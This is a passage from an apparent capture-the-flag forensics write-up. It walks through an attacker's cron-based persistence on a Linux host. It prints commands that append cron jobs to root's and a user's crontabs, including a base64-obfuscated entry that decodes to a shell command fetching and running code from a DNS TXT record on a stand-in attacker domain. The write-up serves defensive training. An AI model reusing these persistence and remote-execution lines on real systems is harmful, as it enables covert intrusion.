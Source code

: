 	The answer is `23[REDACTED]ec`.

6. What was the first cronjob that was placed by the attacker?

	We can see the attacker creating a cronjob by making an entry in `/var/spool/cron/crontabs/root`.

	```console
	echo '* * * * * /bin/sh -c "[REDACTED]"' >> /var/spool/cron/crontabs/root

	tail -n 1 /var/spool/cron/crontabs/root
	* * * * * /bin/sh -c "[REDACTED]"
	```

	The answer is `* * * * * /bin/sh -c "[REDACTED]"`.

7. What is the flag?

	Lastly, we can see another cronjob created by the attacker.

	```console
	echo '* * * * * echo L2[REDACTED]ki | base64 | sh' >> /var/spool/cron/crontabs/bella

	tail -n 1 /var/spool/cron/crontabs/bella
	* * * * * echo L2[REDACTED]ki | base64 | sh
	```

	Decoding the **base64** encoded string in the cronjob, we get our flag.

	```console
	$ echo L2[REDACTED]ki | base64 -d
	/bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.THM{[REDACTED]}.thm)"
	```

	The answer is `THM{[REDACTED]}`.

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>

